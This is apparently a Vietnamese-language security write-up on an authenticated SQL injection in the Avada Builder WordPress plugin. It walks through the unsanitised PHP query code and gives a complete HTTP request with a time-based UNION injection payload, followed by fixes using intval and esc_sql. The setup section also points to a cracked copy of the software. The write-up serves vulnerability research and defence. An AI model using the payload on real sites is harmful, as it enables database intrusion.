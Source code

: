 # Multiple High and Critical Vulnerabilities in Avada Theme and Plugin

![Alt text](image.png)

- Nhiều lỗ hổng nghiêm trọng tồn tại trong Avada Theme <= 7.11.1 và Avada Builder plugin <= 3.11.1

![Alt text](image-1.png)

### Setup
- Avada Theme 7.8.2
- Avada Builder plugin 3.8.2
- Theme và plugin crack ở đây
[Source](avada.zip)


- Thêm mới theme
![Alt text](image-4.png)
- Như này là được 
![Alt text](image-5.png)
- Thêm mới plugin và add mới
![Alt text](image-2.png)
![Alt text](image-3.png)

## I. Authenticated SQL Injection in Plugin
- Enable Critical CSS để sử dụng được action trong ajax-admin
- Vào Options > Performance > Enable Critical CSS (On) > Save Changes

![Alt text](image-6.png)

![Alt text](image-7.png)

- Generate Critical Css

![Alt text](image-8.png)
- Ảnh là đặt var_dump() vào \$query cho dễ debug

- Lỗ hổng tại hàm wp-content/plugins/fusion-builder/inc/critical-css/class-awb-critical-css-page.php, function ajax_regenerate_css()

- Phần khởi tạo có add action để gọi ajax-admin nhưng cần phải xác thực.

```php
public function __construct() {
    add_action( 'admin_menu', [ $this, 'add_menu_page' ], 12 );
    add_action( 'wp_ajax_awb_search_query', [ $this, 'search_query' ] );
    add_action( 'wp_ajax_awb_critical_new', [ $this, 'ajax_get_urls' ] );
    add_action( 'wp_ajax_awb_bulk_update_css', [ $this, 'ajax_get_bulk_urls' ] );
    add_action( 'wp_ajax_awb_critical_css', [ $this, 'ajax_save_css' ] );
    add_action( 'wp_ajax_awb_regenerate_critical_css', [ $this, 'ajax_regenerate_css' ] );

    if ( is_admin() ) {
        $this->bulk_actions();
    }
}
```

![Alt text](image-9.png)

- Id được lấy từ \$_GET['awb_critical_id']
```php
$id = sanitize_text_field( wp_unslash( $_GET['awb_critical_id'] ) );

$entry = AWB_Critical_CSS()->get(
    [
        'where' => [
            'id' => '"' . $id . '"',
        ],
    ]
);
```

- Hàm get() chỉ thêm một số truy vấn điều kiện chứ không làm sạch biến id.
```php
public function get( $args = [] ) {
    global $wpdb;

    $defaults = [
        'what'     => '*',
        'where'    => [],
        'order_by' => '',
        'order'    => 'ASC',
        'limit'    => '',
        'offset'   => 0,
    ];
    $args     = wp_parse_args( $args, $defaults );

    // The table name.
    $table_name = $wpdb->prefix . $this->table_name;

    // The query basics.
    $query = 'SELECT ' . $args['what'] . " FROM `$table_name`";


    // Build the WHERE fragment of the query.
    if ( ! empty( $args['where'] ) ) {
        $where = [];
        foreach ( $args['where'] as $where_fragment_key => $where_fragment_val ) {
            if ( false === strpos( $where_fragment_val, 'LIKE' ) ) {
                $where[] = "$where_fragment_key = $where_fragment_val";
            } else {
                $where[] = "$where_fragment_key $where_fragment_val";
            }
        }

        $query .= ' WHERE ' . implode( ' AND ', $where );
    }

    // Build the ORDER BY fragment of the query.
    if ( '' !== $args['order_by'] ) {
        $order  = 'ASC' !== strtoupper( $args['order'] ) ? 'DESC' : 'ASC';
        $query .= ' ORDER BY ' . $args['order_by'] . ' ' . $order;
    }

    // Build the LIMIT fragment of the query.
    if ( '' !== $args['limit'] ) {
        $query .= ' LIMIT ' . absint( $args['limit'] );
    }

    // Build the OFFSET fragment of the query.
    if ( 0 !== $args['offset'] ) {
        $query .= ' OFFSET ' . absint( $args['offset'] );
    }

    var_dump($query);


    return $wpdb->get_results( $query ); // phpcs:ignore WordPress.DB
}
```

- Thực hiện union attack với time delay
![Alt text](image-10.png)

- Payload
```php
GET /wordpress/wp-admin/admin-ajax.php?action=awb_regenerate_critical_css&awb_critical_id=1"+union+select+sleep(10),null,null,null,null,null,null+--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_bbfa5b726c6b7a9cf3cda9370be3ee91=admin%7C1694158744%7ClXVo7CI92RXup6lamCqGhl5mFyfqJiXHPX76FpS5I1U%7C0410ef2aa5cf0ac12660fdc07e85b9a838625dd2eb0d76af3a787f062c052b55; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_bbfa5b726c6b7a9cf3cda9370be3ee91=admin%7C1694158744%7ClXVo7CI92RXup6lamCqGhl5mFyfqJiXHPX76FpS5I1U%7C8d15e3344ff93c6bea2bb124dd6ee0b8c2ca31f4b621fba30bac4127b1f32231; wp-settings-time-1=1693985946; testcookie=; am_username=; am_check=; memarketing-_zldp=Mltw9Iqq5RQZSO3V%2BzsvBcNWWgn4MPqtgkD49oq5K0JAoyZxNsNt%2FX8EdhLYh1dsrq2vjv8sJRs%3D; selectedtab=2_1; selectedDropDown=monitortabtd; session_id=70169739c0413b46c980e543e69c53ee17d81244
Connection: close

```

- Ở hàm wp-content/plugins/fusion-builder/inc/critical-css/class-awb-critical-css-page.php, function ajax_save_css() cũng tồn tại lỗ hổng sqli tương tự.

![Alt text](image-11.png)

#### Giải pháp
- Cách phòng chống sqli đơn giản cho id là ép kiểu về định dạng muốn.
- Dùng intval() để ép thành kiểu nguyên
![Alt text](image-12.png)

- Dùng esc_sql() của wordpress để escape dấu nháy thành 1 phần của truy vấn và không thể thoát ra câu truy vấn.
![Alt text](image-13.png)

